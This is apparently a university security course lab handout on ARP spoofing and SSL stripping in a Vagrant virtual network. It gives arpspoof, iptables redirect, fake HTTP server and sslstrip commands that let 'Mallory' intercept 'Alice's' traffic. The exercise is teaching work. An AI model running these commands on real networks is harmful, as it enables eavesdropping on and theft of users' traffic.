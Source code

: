 # CSCD27 Lab 8: ARP spoofing and SSLStripping

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

## Initial check

*As Alice*, test that Mathlab is reachable:

```shell
vagrant@alice:~$ curl http://mathlab.utsc.utoronto.ca/
```

## ARP Spoofing (Denial Of Service)

In this part, Mallory wants to disrupt the communication between Alice and the Gateway. To do so, Mallory will broadcast spoofed ARP packets to Alice saying that the gateway can be reached through Mallory's physical address.

*As Mallory (terminal 1), broadcast spoofed ARP messages to Alice (10.0.1.101) pretending to be the gateway (10.0.1.100):

```shell
vagrant@mallory:~$ sudo arpspoof -i eth1 -t 10.0.1.101 10.1.100
```

Finally:

- *As Alice*, test that Mathlab is no longer reachable.
- *As Mallory*, use Wireshark to see ARP spoofed messages and failed TCP messages

## ARP Spoofing (fake HTTP server)

In this part, rather than disrupting the communication between Alice and the Gateway, Mallory wants to setup a fake HTTP server pretending to be Mathlab. To do so, Mallory will first redirect HTTP messages to a fake server before spoofing the ARP messages.

*As Mallory* (terminal 2), redirect HTTP traffic (port 80) to port 8080 (Mallory's fake server)

```shell
vagrant@mallory:~$ sudo bash -c "echo '1' > /proc/sys/net/ipv4/ip_forward"
vagrant@mallory:~$ sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

*As Mallory* (terminal 2), start a fake HTTP server listening on port 8080

```shell
vagrant@mallory:~$ cd /vagrant/mallory/fake_http
vagrant@mallory:~$ python -m SimpleHTTPServer 8080
```

*As Mallory* (terminal 1), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that Mathlab is now reachable (but is it really mathlab?)
- *As Mallory*, use Wireshark to see the (fake) HTTP exchange

## ARP Spoofing (fake HTTPS server)

How could Mallory setup the attack if Alice tries to connect to Mathlab using HTTPS?

```shell
vagrant@alice:~$ curl https://mathlab.utsc.utoronto.ca/
```

## SSLStripping

In this part, rather than redirecting Alice to a fake HTTPS server, Mallory wants to relay traffic between Alice and Mathlab as a man-in-the-middle attack. The goal is to fool Alice into sending non-encrypted HTTPS requests to Mallory.

*As Mallory* (terminal 2), forward all HTTPS traffic to the SSLStrip proxy.

```shell
vagrant@mallory:~$ cd sslstrip-0.9
vagrant@mallory:~$ python sslstrip.py -a -w log.txt -l 8080 -f
```

Finally:

- *As Alice*, test that (real) Mathlab is now reachable with HTTPS
- *As Mallory*, open the file `log.txt` and see all HTTPS traffic